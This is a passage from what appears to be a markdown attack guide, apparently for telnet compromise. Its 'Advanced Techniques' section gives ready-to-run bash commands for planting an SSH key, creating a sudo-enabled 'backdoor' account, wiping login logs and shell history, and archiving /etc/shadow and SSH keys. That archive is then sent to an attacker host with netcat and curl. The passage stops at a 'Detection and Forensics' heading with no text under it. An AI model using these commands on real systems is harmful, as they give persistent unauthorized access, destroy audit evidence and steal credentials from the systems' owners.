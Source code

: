 
## 🛠️ Advanced Techniques

### Session Persistence
```bash
# Add SSH key for persistent access
mkdir -p ~/.ssh
echo "<your-public-key>" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# Create backdoor user (if root access)
useradd -m -s /bin/bash backdoor
echo "backdoor:SecurePass123" | chpasswd
usermod -aG sudo backdoor  # Ubuntu/Debian
usermod -aG wheel backdoor # RedHat/CentOS
```

### Log Manipulation
```bash
# Clear telnet login logs (if possible)
> /var/log/wtmp
> /var/log/btmp
> /var/log/lastlog

# Clear specific entries
sed -i '/your-ip/d' /var/log/auth.log
sed -i '/telnet/d' /var/log/secure

# Clear history
history -c
> ~/.bash_history
```

### Data Exfiltration
```bash
# Compress sensitive data
tar -czf /tmp/sensitive.tar.gz /etc/passwd /etc/shadow /home/*/.ssh/

# Transfer via netcat
nc <your-ip> <your-port> < /tmp/sensitive.tar.gz

# Base64 encode for copy/paste
base64 -w 0 sensitive_file.txt

# Using built-in tools
curl -X POST -d @sensitive_file.txt http://<your-ip>:<your-port>/upload
```

---

## 🔍 Detection and Forensics
